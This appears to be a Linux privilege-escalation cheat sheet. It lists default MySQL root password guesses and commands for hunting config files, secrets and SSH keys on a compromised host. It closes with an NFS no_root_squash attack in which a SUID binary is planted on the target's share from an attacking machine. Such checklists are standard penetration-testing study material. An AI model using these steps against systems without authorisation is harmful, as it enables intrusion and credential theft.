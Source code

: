##### MYSQL Credentials? Root Unauthorized Access?**  
```c
mysql -uroot -p  
Enter Password:  
root : root  
root : toor  
root :
```

##### Take a quick look at etc to see if any user-level people did special things:**  
```c
cd /etc/  
ls -lsaht  

# Anything other than root here?_  
• Any config files left behind?  
→ ls -lsaht |grep -i ‘.conf’ --color=auto
```

##### If we have root priv information disclosure - are there any .secret in /etc/ files?**  
```c
ls -lsaht |grep -i ‘.secret’ --color=auto
```

##### SSH Keys I can use perhaps for even further compromise?**  
```c
ls -lsaR /home/  
```

##### Quick look in:
```c
ls -lsaht /var/lib/  
ls -lsaht /var/db/  
```
  
**Quick look in:**  
```c
ls -lsaht /opt/  
ls -lsaht /tmp/  
ls -lsaht /var/tmp/  
ls -lsaht /dev/shm/
ls -lsaht /opt/ /tmp/ /var/tmp/ /dev/shm/

```

##### NFS? Can we exploit weak NFS Permissions?
```c
cat /etc/exports
#no_root_squash? 
```

**[On Attacking Machine]**  
```c
mkdir -p /mnt/nfs/  
mount -t nfs -o vers=<version 1,2,3> <$IP>: <NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid  
cp suid /mnt/nfs/  
chmod u+s /mnt/nfs/suid  
su <user id matching target machine's user-level privilege.>  
```
  